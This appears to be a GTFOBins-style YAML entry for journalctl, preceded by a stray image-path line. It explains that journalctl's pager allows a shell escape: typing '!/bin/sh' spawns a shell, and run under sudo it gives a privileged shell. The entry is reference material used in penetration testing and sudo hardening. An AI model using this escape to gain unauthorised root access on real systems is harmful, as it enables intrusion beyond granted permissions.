 description: |
  This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.

  This might not work if run by unprivileged users depending on the system configuration.
functions:
  shell:
    - code: |
        journalctl
        !/bin/sh
  sudo:
    - code: |
        sudo journalctl
        !/bin/sh
---

